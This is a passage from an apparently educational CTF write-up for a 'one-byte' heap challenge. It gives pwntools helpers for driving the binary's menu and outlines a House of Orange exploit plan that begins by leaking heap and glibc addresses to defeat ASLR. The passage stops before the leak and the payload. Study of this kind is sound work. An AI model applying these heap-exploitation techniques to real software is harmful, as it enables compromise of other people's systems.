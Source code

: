 ```python
    global index
    io.sendthen(b"> ", b"1")
    index += 1
    return index - 1

# Select the "free" option; send index.
def free(index):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

# Select the "edit" option; send index & data.
def edit(index, data):
    io.send(b"3")
    io.sendafter(b"index: ", f"{index}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Select the "read" option; read 0x58 bytes.
def read(index):
    io.send(b"4")
    io.sendafter(b"index: ", f"{index}".encode())
    r = io.recv(0x58)
    io.recvuntil(b"> ")
    return r

io = start()
io.recvuntil(b"> ")
io.timeout = 0.1
```

# The complete step-by-step exploit

There are 3 main steps for this exploit.

**Leak useful information**: since we need to assume that ASLR is enabled (and the default, modern, security measures are also enabled for the binary), we need to leak some addresses. Specifically, as we will see later, we need the heap and GLibC addresses.

**Prepare the heap for the House of Orange**: after tinkering with the executable, and for the considerations I explained above, I determined that House of Orange was the most viable exploitation strategy. Nevertheless, I couldn't use it as it was presented in the course, so some investigation and preparation was needed.

**Profit**: trigger the exploit.

> ***Note:*** My exploitation of the one-byte challenge differs from the one presented as the "official" solution for the challenge. This is due to the approach used for leaking the GLibC and heap address.

## Step 1 - Leak GLibC and heap addresses
